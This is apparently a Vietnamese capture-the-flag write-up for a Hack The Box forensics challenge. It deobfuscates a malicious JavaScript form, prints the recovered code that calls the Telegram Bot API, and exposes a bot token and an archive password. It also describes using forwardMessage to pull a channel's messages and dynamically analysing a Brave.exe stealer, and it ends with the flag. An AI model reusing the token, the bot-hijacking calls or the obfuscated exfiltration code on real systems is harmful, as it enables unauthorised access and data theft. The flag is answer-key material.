# Tales for the Brave 

### Details:


### Solution:

Đề cho chúng ta một đoạn obfuscate js. Ta tiến hành tách từng đoạn nhỏ và chạy nó trên Console (vì nó có sử dụng `CryptoJS` nên ta sẽ sử dụng Console trên web Docker của đề <Vì nó import sẵn library cho mình rồi>)

Đoạn nhỏ đầu tiên ta có:
```
var _$_9b39=(function(n,w){var r=n.length;var j=[];for(var e=0;e< r;e++){j[e]= n.charAt(e)};for(var e=0;e< r;e++){var d=w* (e+ 439)+ (w% 33616);var a=w* (e+ 506)+ (w% 38477);var v=d%r;var p=a%r;var x=j[v];j[v]= j[p];j[p]= x;w= (d+ a)% 3525268};var c=String.fromCharCode(127);var q='';var m='%';var t='#1';var o='%';var u='#0';var k='#';return j.join(q).split(m).join(c).split(t).join(o).split(u).join(k).split(c)})("Ats8ep%%e6Sr%prB%feUseEynatcc4%ad",1198358);;;;;;;;;;;;;
```


Ta được `_$_9b39 = ['decrypt', 'AES', 'parse', 'Base64', 'enc', 'Utf8']`

Ở đoạn thứ 2 ta có:
```
eval(CryptoJS[_$_9b39[1]][_$_9b39[0]]({ciphertext:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape(".....")))},
CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("..."))),
{iv:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("....")))}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));
```

Sau khi lấy giá trị từ `_$_9b39` ta có một đoạn hoàn chỉnh là:
```
CryptoJS.AES.decrypt(
    {ciphertext: CryptoJS.enc.Base64.parse(btoa(unescape(".....")))},
    CryptoJS.enc.Base64.parse(btoa(unescape("....."))),
    {iv: CryptoJS.enc.Base64.parse(btoa(unescape("....")))}
  ).toString(CryptoJS.enc.Utf8);
```

Code này sẽ decrypt ciphertext bằng AES, ta tiến hành nhập từng đoạn vào Console:

Ciphertext:





Key và IV:



```
Key: dbed986cb189a14795f28ab317af4c2db2073729cf54bc93
IV: e4752614ca4a372f3809fcc60d09308a
```

Ta đút vào CyberChef, ta có đoạn obfuscate thứ 2 ........



Làm các bước tương tự như ở phần 1 ta có code hoàn chỉnh:
```js
_$_5975 = ['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==',
           's3cur3k3y',
           'Base64', 'enc', 'toString', '', 'join', 'SHA256', 
           '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', // Hash to verify
           'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 
           'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 
           'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 
           'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']

function G(r) {
    return function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 7 - t) 
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 
    1354343..toString(36).toLowerCase() + 
    21..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    4..toString(36).toLowerCase() + 
    32..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -39) 
    }).join('') + 
    381..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 60 - t) 
        }).join('')
    }(42, 216, 153, 153, 213, 187);
}

document.getElementById("newsletterForm").addEventListener("submit", function(e) {
  e.preventDefault();
  const emailField = document.getElementById("email");
  const descriptionField = document.getElementById("descriptionField");
  let isValid = true;
  if (!emailField.value) {
    emailField.classList.add("shake");
    isValid = false;
    setTimeout(() => {
      return emailField.classList.remove("shake");
    }, 500);
  }
  if (!isValid) {
    return;
  }
  const emailValue = emailField.value;
  const specialKey = emailValue.split("@")[0];
  const desc = parseInt(descriptionField.value, 10);
  f(specialKey, desc);
});

function f(oferkfer, icd) {
  const channel_id = -1002496072246;
  var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";
  // _$_5975[1] = s3cur3k3y
  // _$_5975[8] = 18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=
  if (oferkfer === G(_$_5975[1]) && 
        CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === _$_5975[8]) {
    var decrypted = CryptoJS.RC4Drop.decrypt(
            enc_token, 
            CryptoJS.enc.Utf8.parse(oferkfer), 
            { drop: 192 }
        ).toString(CryptoJS.enc.Utf8);
    var HOST = "https://api.telegram.org/bot"+ decrypted;
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        const resp = JSON.parse(xhr.responseText);
        try {
          const link = resp.result.text;
          window.location.replace(link);
        } catch (error) {
          alert("Form submitted!");
        }
      }
    };
    xhr.open("GET", HOST + "/" + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
    xhr.send(null);
  } else {
    alert("Form submitted!");
  }
}
var sequence = [];

function l() {
  sequence.push(this.id);
}
var checkboxes = document.querySelectorAll("input[class=cb]");
for (var i = 0; i < checkboxes.length; i++) {
  checkboxes[i].addEventListener("change", l);
}

```

Ta tìm giá trị `oferkfer` để lấy giá trị của cho việc decrypt biến `decrypted`:



`oferkfer = 0p3r4t10n_4PT_Un10n`

Ta tiến hành tìm giá trị của `decrypted`:



`decrypt = 7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc`

Ta có link bot telegram hoàn chỉnh: `https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc`

Ta có thể `/getMe` để lấy thông tin về bot và xác định được tên của con bot là `OperationEldoriaBot`

Ta sẽ sử dụng API `forwardMessage` để kéo tất cả tin nhắn về Telegram của ta. Nhưng ta chỉ có thể làm việc đó nếu ta có ID chat của ta và con bot. Thế nên ta tiến hành gửi tin nhắn cho con bot



Sau khi đã khỏi tạo đoạn chat, thông tin sẽ update ở `/getUpdates` của con bot.

Ta lấy được `chat_id` của mình và hoàn thành url hoàn chỉnh thực hiện API `forwardMessage`

```
https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=xxx&from_chat_id=-1002496072246&message_id=x
```

Khi ta test, có tất cả 11 đoạn chat và trong số đó có một vài cái đặc biệt
```
message_id = 3: "Interesting. Their reliance on **Brave** works in our favor. Send over the tool and a brief summary of its capabilities."
message_id = 6: Zip file
message_id = 9 -> Cho password cho dr4g0nsh34rtb3l0ngst0m4l4k4r
```

Ta tải file và tiến hành giải nén, ta có được 1 file `Brave.exe`

**Ta thử phân tích nhưng không có bất kỳ thứ gì khả nghi**. Vì vậy ta phải đổi sang hướng **Dynamic Analysis**. Về cơ bản method này nhằm để nắm bắt hành vi của con `Brave.exe` này

Ta tiến hành mở Fakenet-NG (Tool cho Dynamic Network Analysis) và chạy `Brave.exe` cùng Browser Brave (vì trong mess_id 3, người ta có nhắc đến việc người dùng sử dụng Brave sẽ có lợi cho họ nên ta nghĩ là con `Brave.exe` này sẽ làm gì đó với dữ liệu bla bla của Brave)

Malware gửi POST request với JSON data tới endpoint. Ta tìm được flag nằm trong JWT Token trên POST request








Flag: `HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}`
